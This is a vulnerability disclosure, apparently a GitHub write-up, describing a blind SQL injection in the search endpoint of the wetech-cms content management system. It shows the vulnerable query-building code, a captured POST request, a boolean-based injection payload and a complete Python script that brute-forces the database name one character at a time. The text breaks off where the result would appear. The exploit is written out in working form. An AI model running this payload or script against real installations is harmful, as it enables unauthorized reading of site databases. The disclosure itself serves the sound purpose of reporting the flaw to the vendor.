


**BUG_Author:**

hadagaga

**Vendor:**

https://github.com/cjbi/wetech-cms

**Software:**

https://github.com/cjbi/wetech-cms

**Vulnerability File:**

##### wetech-cms-master\wetech-core\src\main\java\tech\wetech\cms\dao\TopicDao.java

```java
	@Override
	public Pager<Topic> searchTopic(String con) {
		String hql = getTopicSelect() + " from Topic t where t.status=1 and " + "(title like '%" + con
				+ "%' or content like '%" + con + "%' or summary like '%" + con + "%')";
		return this.find(hql);
	}
```

​	Locate a route retroactively

```java
	@RequestMapping(value = "/search", method = RequestMethod.POST)
	public List<Topic> search(String con) {
		SystemContext.setOrder("asc");
		SystemContext.setSort("c.orders");
		SystemContext.setOrder("desc");
		SystemContext.setSort("t.publishDate");
		Pager<Topic> topics = topicService.searchTopic(con);
		// 将关键字着色
		focus(topics, con);
		return topics.getDatas();
	}
```

​	Based on the route, we locate the front-end search function

​	

​	Capture packets after searching:

```http
POST /search.do HTTP/1.1
Host: 172.21.55.165:8888
Content-Length: 7
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36 Edg/131.0.0.0
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://172.21.55.165:8888
Referer: http://172.21.55.165:8888/?
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: JSESSIONID=5EA494FF429C210478C61A1E2BA26079
Connection: close

con=123
```

​	After outputting single quotation marks, an error is found, and you try to construct an SQL statement to get payload:

```SQL
1%' and content like (case when ascii(substr(database(),1,1))=1 then '' else '%' end) or content like '1
```

​	Based on the payload, we have the following python script

```python
import requests
true_of_payload = {
    "con" : "1%' and content like (case when ascii(substr(database(),1,1))=1 then '' else '%' end) or content like '1"
}
url = "http://172.21.55.165:8888/search"
def req():
    r = requests.post(url,params=true_of_payload)
    true_len = len(r.text)
    for i in range(1,11):
        for j in range(64,127):
            payload = {
                "con" : "1%' and content like (case when ascii(substr(database(),{},1))={} then '' else '%' end) or content like '1".format(i,j)
            }
            r = requests.post(url,params=payload)
            if len(r.text) != true_len:
                print(chr(j),end='')
                break

def main():
    req()

if __name__ == "__main__":
    main()

```

​	Successfully obtain the library name:


